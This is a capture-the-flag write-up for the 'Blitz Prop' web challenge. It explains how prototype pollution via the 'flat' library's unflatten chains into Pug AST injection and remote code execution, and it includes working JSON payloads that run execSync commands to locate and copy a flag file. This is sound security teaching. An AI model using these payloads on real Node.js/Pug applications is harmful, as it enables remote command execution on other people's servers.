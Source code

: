 # Blitz Prop

## First Look

The web page for Blitz Prop is a beautiful, futuristic looking feedback form. As the user, we are provided with a list of songs from a famous alien band called Blitz Prop and asked to choose our favorite.

![BlitzProp](images/BlitzProp.png)

There are some hints here in the songs names for those with the right insight, but we'll ignore those. Instead, the source code is available, so let's treat this like something of a code review:

```js
const path = require("path");
const express = require("express");
const pug = require("pug");
const { unflatten } = require("flat");
const router = express.Router();

router.get("/", (req, res) => {
  return res.sendFile(path.resolve("views/index.html"));
});

router.post("/api/submit", (req, res) => {
  const { song } = unflatten(req.body);

  if (
    song.name.includes("Not Polluting with the boys") ||
    song.name.includes("ASTa la vista baby") ||
    song.name.includes("The Galactic Rhymes") ||
    song.name.includes("The Goose went wild")
  ) {
    return res.json({
      response: pug.compile(
        "span Hello #{user}, thank you for letting us know!"
      )({ user: "guest" }),
    });
  } else {
    return res.json({
      response: "Please provide us with the name of an existing song.",
    });
  }
});
```

A cursory look shows that our input is 'unflattened' using the 'flat' library then checked for one of the song names as a substring. If a song is found, pug is used to process a template and return some text to display on the webpage. A quick look at the form payload reveals flattened JSON that we can fiddle with using Burp, developer tools, curl, or whatever your favorite tool is for sending HTML requests.

![BlitzProp-Request](images/bp-request.png)

## Identifying the vulnerability

The application is very simple. Node.js and Express are commonly used, robust tools for serving javascript based web applications. However, both `pug` and `flat` are interesting.

[Pug.js](https://pugjs.org/api/getting-started.html) is a templating tool. In this app, it is used for one thing: [String Interpolation](https://en.wikipedia.org/wiki/String_interpolation#JavaScript). Since string interpolation is built-in to javascript, we have reason to be suspicious here. However, the string being subsituted is hardcoded. This could be a red-herring, so let's set it aside for now and look at flat.

[Flat](https://github.com/hughsk/flat) is a tool for flattening and unflattening JSON objects. In our case, it will transform the JSON payload from our above image to:

```json
{
  "song": {
    "name": "Not Polluting with the boys"
  }
}
```

And that's all that we have available to exploit. Unflatten is the only thing that processes our user input. Since our input is being unflattened and loaded as a javascript object into `song` variable, what if we could write or overwrite other items in Node's object space?

### Prototype Pollution

[Prototype Pollution](https://medium.com/node-modules/what-is-prototype-pollution-and-why-is-it-such-a-big-deal-2dd8d89a93c) is a potent vulnerability. See the excellent medium article by Dani Akash that I linked to learn about it. Play around with it in your browser console or Node to grasp it.

Vulnerabilities to Prototype Pollution are subtle, but can result in many issues from bypassing [authorization](https://auth0.com/intro-to-iam/what-is-authorization/) to [Denial of Service (DoS)](https://www.cloudflare.com/learning/ddos/glossary/denial-of-service/) to [Remote Code Execution (RCE)](https://en.wikipedia.org/wiki/Arbitrary_code_execution).

### Testing our Idea

We can run a quick test to see if unflatten is vulnerable to prototype pollution using node. Let's import the `flat` library, run a payload through the `unflatten` function and see if Node's object space is polluted:

```js
Welcome to Node.js v12.13.0.
Type ".help" for more information.
> const { unflatten } = require("flat")
undefined
> const payload = {'song.name': 'Not Polluting with the boys', 'Object.__proto__.Hello': 'World'}
undefined
> unflatten(payload)
{ song: { name: 'Not Polluting with the boys' }, Object: {} }
> payload.Hello
'World'
```

Bingo! We were able to pollute the Object space so that all objects have a property called `Hello` with value `World`.

## Find the Weakness

How do we exploit this? There are no if branches to bypass in the code. The default Object space only has functions to overwrite, but since we can only submit valid JSON, we cannot define our own function.

**Note:** This is because function definitions are not valid JSON and so will fail. You can overwrite a function with a payload such as `{ 'Object.__proto__.toString': '() => return "RIP ⚰️"' }` but it will break everything, as a critical _function_ has now been redefined as a _string_.

We can achieve RCE if we can find an `exec()` or `eval()` statement _anywhere in our application_. Maybe Pug?..

A little bit of googling with the terms `pug prototype pollution` hands us another excellent article called [AST Injection, Prototype Pollution to RCE](https://blog.p6.is/AST-Injection/), this one by Beomjin Lee. In this article, we find an essentially identical setup using `pug` and `flat`, along with a deep-dive into how pug is vulnerable to [AST](https://en.wikipedia.org/wiki/Abstract_syntax_tree) Injection through prototype pollution.

### Exploit

The linked blog is kind enough to provide a payload and goes into some detail on how it works. The underlying principle is still Prototype Pollution, but its worth reviewing the Pug source code to understand why it happens. However, that is outside the scope of this write-up, so we will proceed with our exploit.

If you have a system with a public IP that you can use to get a reverse shell, you're golden, but I will offer an alternative. The base app makes all items in the path `/static` publicly available:

```js
const express = require("express");
const app = express();
const routes = require("./routes");
const path = require("path");

app.use(express.json());
app.set("views", "./views");
app.use("/static", express.static(path.resolve("static"))); // <----- Here

app.use(routes);

app.all("*", (req, res) => {
  return res.status(404).send("404 page not found");
});

app.listen(1337, () => console.log("Listening on port 1337"));
```

So, let's just move our flag file there and view in our browser 😁
Since we don't know the flag file name, we'll send two payloads. I will use Firefox dev tools to submit the payload because I'm lazy 😎

```json
{
  "song.name": "Not Polluting with the boys",
  "Object.__proto__.block": {
    "type": "Text",
    "line": "process.mainModule.require('child_process').execSync(`find / -type f -name '*flag*' > static/possible_flags.txt`)"
  }
}
```

We are presented with a server error, but the ouput is just `find` errors. Our code executed succesfully!

```log
Error: Command failed: find / -type f -name '*flag*' > static/possible_flags.txt
find: /root: Permission denied
find: /proc/tty/driver: Permission denied
find: /proc/1/task/1/fd: Permission denied
find: /proc/1/task/1/fdinfo: Permission denied
find: /proc/1/task/1/ns: Permission denied
find: /proc/1/fd: Permission denied
find: /proc/1/map_files: Permission denied
find: /proc/1/fdinfo: Permission denied
find: /proc/1/ns: Permission denied
find: /proc/26/task/26/fd: Permission denied
find: /proc/26/task/26/fdinfo: Permission denied
find: /proc/26/task/26/ns: Permission denied
find: /proc/26/fd: Permission denied
find: /proc/26/map_files: Permission denied
find: /proc/26/fdinfo: Permission denied
find: /proc/26/ns: Permission denied
 on line 1
    at checkExecSyncError (child_process.js:621:11)
    at Object.execSync (child_process.js:657:15)
    at eval (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), <anonymous>:13:63)
    at template (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), <anonymous>:17:7)
    at /app/routes/index.js:16:81
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:281:22
```

Let's visit /static/possible_flags.txt:

![BlitzProp_Find_Error](images/bp-find-error.png)

The flag name is protected using [Security through Obscurity](https://en.wikipedia.org/wiki/Security_through_obscurity), but not very well. Let's go ahead and snag it:

```json
{
  "song.name": "Not Polluting with the boys",
  "Object.__proto__.block": {
    "type": "Text",
    "line": "process.mainModule.require('child_process').execSync(`cp /app/flagF4jzU static/flag.txt`)"
  }
}
```

Submit the same way and check it out in the browser:

![BlitzProp_Flag](images/bp-flag.png)

Success!
